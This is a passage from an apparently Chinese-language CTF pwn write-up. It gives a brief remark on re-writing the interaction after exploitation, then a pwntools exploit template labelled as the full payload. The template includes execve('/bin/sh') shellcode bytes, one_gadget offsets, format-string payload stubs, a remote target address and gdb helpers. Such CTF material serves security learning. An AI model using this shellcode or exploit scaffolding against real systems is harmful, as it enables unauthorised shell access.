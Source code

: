 利用完后，应该是修改了某部分，不能再利用我们原来写的交互中的malloc函数来进行利用了，需要再写一个交互过程的语句。完成！！！

![upload successful](/images/pasted-156.png)
完整的payload如下

```python
# -*- coding: utf-8 -*-
from pwn import *
#from libformatstr import FormatStr
context.log_level = 'debug'
context(arch='amd64', os='linux')
# context(arch='i386', os='linux')
local = 1
elf = ELF('./pwn2')
if local:
    p = process('./pwn2')
    libc = elf.libc
else:
    p = remote('116.85.48.105',5005)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#onegadget64(libc.so.6)
# one = [0x45216,0x4526a,0xf02a4,0xf1147]
# [rax == NULL;[rsp+0x30] == NULL,[rsp+0x50] == NULL,[rsp+0x70] == NULL]
#onegadget32(libc.so.6)  0x3ac5c  0x3ac5e  0x3ac62  0x3ac69  0x5fbc5  0x5fbc6
# py32 = fmtstr_payload(start_read_offset,{xxx_got:system_addr})
# sl(py32)
# py64 = FormatStr(isx64=1)
# py64[printf_got] = onegadget
# sl(py64.payload(start_read_offset))
shellcode = asm(shellcraft.sh())
shellcode32 = '\x68\x01\x01\x01\x01\x81\x34\x24\x2e\x72\x69\x01\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\x6a\x0b\x58\xcd\x80'
#shellcode64 = '\x48\xb8\x01\x01\x01\x01\x01\x01\x01\x01\x50\x48\xb8\x2e\x63\x68\x6f\x2e\x72\x69\x01\x48\x31\x04\x24\x48\x89\xe7\x31\xd2\x31\xf6\x6a\x3b\x58\x0f\x05'
#shellcode64 = '\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05'
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ti = lambda : p.interactive()
# libc.address = libc_addr
def debug(addr,PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
        gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(p,"b *{}".format(hex(addr)))

def bk(addr):
    gdb.attach(p,"b *"+str(hex(addr)))
```